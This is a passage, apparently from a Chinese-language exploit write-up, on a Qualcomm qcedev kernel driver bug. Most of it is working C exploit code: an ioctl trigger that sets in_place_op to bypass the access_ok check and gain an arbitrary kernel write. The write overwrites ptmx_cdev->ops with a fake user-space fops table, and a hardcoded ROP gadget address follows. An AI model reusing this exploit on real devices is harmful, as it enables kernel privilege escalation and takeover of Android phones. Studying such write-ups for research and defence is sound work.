 根据前面的分析，伪结构的值需要先做一次加密，再使用

```c
	unsigned long edata = 0;
        qcedev_encrypt(fd, fake_ptmx_fops, &edata);
        trigger(fd, edata);
```

下面是核心的函数

```c

static int trigger(int fd, unsigned long src)
{
        int cmd;
        int ret;
        int size;
        unsigned long dst;
        struct qcedev_cipher_op_req params;

        dst = PTMX_MISC + 8 * 9; // patch ptmx_cdev->ops
        size = sizeof(unsigned long);
        memset(&params, 0, sizeof(params));
        cmd = QCEDEV_IOCTL_DEC_REQ;
        params.entries = 1;
        params.in_place_op = 1; // bypass access_ok check of creq->vbuf.dst[i].vaddr
        params.alg = QCEDEV_ALG_DES;
        params.mode = QCEDEV_DES_MODE_ECB;
        params.data_len = size;
        params.vbuf.src[0].len = size;
        params.vbuf.src[0].vaddr = &src;
        params.vbuf.dst[0].len = size;
        params.vbuf.dst[0].vaddr = dst;
        memcpy(params.enckey,"test", 16);
        params.encklen = 16;

        printf("[+] overwrite ptmx_cdev ops\n");
        ret = ioctl(fd, cmd, &params); // trigger 
        if(ret == -1) {
                printf("[-] Ioctl qcedev fail(%s - %d)\n", strerror(errno), errno);
                return -1;
        }
        return 0;

}
```

参数 src 就是 **fake_ptmx_fops** 加密后的值，我们将其地址放入 **qcedev_cipher_op_req.vbuf.src[0].vaddr** 里，目标地址 **qcedev_cipher_op_req.vbuf.dst[0].vaddr** 存放 **ptmx_cdev->ops** 的地址，然后调用 ioctl 触发漏洞，任意地址写漏洞触发后，目标地址 **ptmx_cdev->ops** 的值会被覆盖为 **fake_ptmx_fops**.

此后，对 ptmx 设备的内核fops函数执行，都会被重定向到用户层伪造的函数，我们通过一些rop 片段来实现伪函数，就可以被内核直接调用。


```c
/*
 * rop write:
 * ffffffc000671a58:       b9000041        str     w1, [x2]
 * ffffffc000671a5c:       d65f03c0        ret
 */
#define ROP_WRITE       0xffffffc000671a58

```
